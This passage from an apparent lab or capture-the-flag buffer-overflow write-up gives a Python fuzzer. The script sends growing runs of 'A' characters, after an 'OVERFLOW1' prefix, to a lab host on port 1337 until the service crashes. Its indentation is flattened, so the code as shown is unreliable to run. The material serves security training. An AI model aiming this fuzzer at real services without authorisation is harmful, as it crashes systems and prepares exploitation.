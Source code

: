![Pasted image 20250529121115.png](../../IMAGES/Pasted%20image%2020250529121115.png)

Now, on our linux machine we need to create a file named `fuzzer.py` with this contents:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.199.216"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
 try:
 with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
 s.settimeout(timeout)
 s.connect((ip, port))
 s.recv(1024)
 print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
 s.send(bytes(string, "latin-1"))
 s.recv(1024)
 except:
 print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
 sys.exit(0)
 string += 100 * "A"
 time.sleep(1)
```
